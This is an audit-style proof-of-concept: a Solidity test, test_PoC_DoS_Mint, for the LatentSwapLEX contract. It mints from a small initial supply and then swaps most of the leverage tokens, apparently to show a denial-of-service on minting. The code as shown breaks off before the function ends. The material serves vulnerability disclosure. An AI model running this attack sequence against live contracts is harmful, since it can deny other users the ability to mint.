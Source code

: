 Add the following test to `LatentSwapLEX.t.sol` :

```solidity
    function test_PoC_DoS_Mint() external {

        UnderCollateralizedTestParams memory params;

        // Set initial supply
        params.initialSupply = 1000; 

        // deploy latentSwapLEX liquid
        MockLatentSwapLEX latentSwapLEX = new MockLatentSwapLEX(
            address(this),
            P_MAX,
            P_MIN,
            P_TARGET,
            P_LIM_H,
            P_LIM_L,
            10 ** 18,
            DURATION,
            0
        );

        // Initialize
        MarketId marketId = MarketId.wrap(keccak256("Random market (LatentSwap does not verify)"));
        MarketParams memory marketParams = MarketParams({
            baseToken: _mockBaseAsset,
            quoteToken: _mockQuoteAsset,
            oracle: _mockOracle,
            lex: address(latentSwapLEX)
        });
        latentSwapLEX.initMarket(marketId, marketParams, 0, hex"");

        (params.initialATokenSupply, params.initialZTokenSupply, , ) = latentSwapLEX.mint(
            MintParams({
                marketId: marketId,
                marketParams: marketParams,
                baseAmountIn: params.initialSupply,
                to: address(this),
                minATokenAmountOut: 0,
                minZTokenAmountOut: 0
            }),
            address(this),
            0
        );

        console.log("minted A : ", params.initialATokenSupply);
        console.log("minted Z : ", params.initialZTokenSupply);

        (uint256 ZTokenOut, , ) = latentSwapLEX.swap(
            SwapParams({
                marketId: marketId,
                marketParams: marketParams,
                assetIn: AssetType.LEVERAGE,
                assetOut: AssetType.DEBT,
                to: address(this),
                amountSpecified: params.initialATokenSupply * 90 / 100, 
                amountLimit: 0,
                isExactIn: true
            }),
            address(this),
            params.initialSupply
        );

```